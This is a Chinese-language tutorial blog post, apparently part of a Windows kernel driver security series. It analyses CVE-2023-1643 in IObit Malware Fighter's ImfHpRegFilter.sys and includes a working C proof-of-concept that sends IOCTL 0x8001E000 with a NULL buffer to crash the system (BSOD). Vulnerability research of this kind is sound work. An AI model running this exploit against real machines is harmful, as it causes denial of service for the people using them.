





# 【第 09 話】CVE-2023-1643 研究－Null Pointer Dereference

## 文章大綱
我們在[【第 08 話】攻擊自己寫的驅動程式－Null Pointer Dereference](/asset/第%2008%20話) 攻擊 [AbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessTokenDrv.sys) 程式中的漏洞，造成系統的崩潰。

這篇要直接來找現實產品中的驅動程式曾經發生的類似漏洞，攻擊 IObit Malware Fighter 的 ImfHpRegFilter.sys 的 CVE-2023-1643，同樣是造成 Null Pointer Dereference。


## 介紹 CVE-2023-1643
首先來看看 [CVE-2023-1643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1643) 在 MITRE 的描述。

A vulnerability has been found in IObit Malware Fighter 9.4.0.776 and classified as problematic. Affected by this vulnerability is the function 0x8001E000/0x8001E004/0x8001E018/0x8001E01C/0x8001E024/0x8001E040 in the library ImfHpRegFilter.sys of the component IOCTL Handler. The manipulation leads to denial of service. Attacking locally is a requirement. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-224023.

直接用列點的方式抓重點。
- 軟體：[IObit Malware Fighter](https://www.iobit.com/en/malware-fighter.php) 9.4.0.776
- 元件：ImfHpRegFilter.sys
- 漏洞位置：IOCTL Handler 的 IoControlCode 0x8001E000、0x8001E004、0x8001E018、0x8001E01C、0x8001E024、0x8001E040
- 影響：DoS（Denial of Service）


## 介紹 ImfHpRegFilter.sys
從我的 GitHub 下載目標驅動程式檔案 [ImfHpRegFilter.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1643/bin/ImfHpRegFilter.sys) 後在 VM 中載入，然後執行 [DriverView](https://www.nirsoft.net/utils/driverview.html)，可以看到剛剛載入的驅動程式。



對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 ImfHpRegFilter.sys 的數位簽章資訊，是 2019 年 12 月 17 日的簽章。




## 逆向分析
很幸運的這個 CVE 的描述算是很齊全，畢竟有些 CVE 可能只會說軟體的版本跟造成的影響。

直接開 IDA 分析 ImfHpRegFilter.sys，從 `DriverEntry` 找到 Symbolic Link Name `Imf8HpRegFilter` 和 Dispatcher 的函數位址。




跟進 Dispatcher，根據 CVE 的描述，漏洞出在 IoControlCode 0x8001E000、0x8001E004、0x8001E018、0x8001E01C、0x8001E024、0x8001E040。先看 0x8001E000，這個 IoControlCode 實作的程式很短，跟[【第 08 話】攻擊自己寫的驅動程式－Null Pointer Dereference](https://ithelp.ithome.com.tw/articles/10324544) 有相同的錯誤，就是沒有先檢查 SystemBuffer 是否為 NULL 就直接存取它而導致 Null Pointer Dereference。



其他 0x8001E004、0x8001E018、0x8001E01C、0x8001E024、0x8001E040 其實都是相同的狀況，這篇就不一一截圖。

## 寫程式
既然我們知道在 IoControlCode 0x8001E000 時，呼叫 `DeviceIoControl` 的 InputBuffer 給 NULL 就會導致 Null Pointer Dereference，我們可以很容易寫出攻擊腳本。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2023-1643)。

```c
#define SymLinkName L"\\\\.\\Imf8HpRegFilter"

int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 0;
    }

    DWORD dwWrite;
    
    // 輸入 NULL 會造成 ImfHpRegFilter.sys 的 Null Pointer Dereference
    DeviceIoControl(hDevice, 0x8001E000, NULL, 0, NULL, 0, &dwWrite, NULL);

    return 0;
}
```


## 測試
在 VM 中安裝 IObit Malware Fighter 9.4.0.776 或者直接載入 [ImfHpRegFilter.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1643/bin/ImfHpRegFilter.sys) 後執行 [CVE-2023-1643.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1643/bin/CVE-2023-1643.exe)，會看到 BSOD 如下圖。




## 參考資料
- [IObit Malware Fighter, ImfHpRegFilter.sys, DoS](https://github.com/zeze-zeze/WindowsKernelVuln/tree/master/CVE-2023-1643)
- [CVE-2023-1643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1643)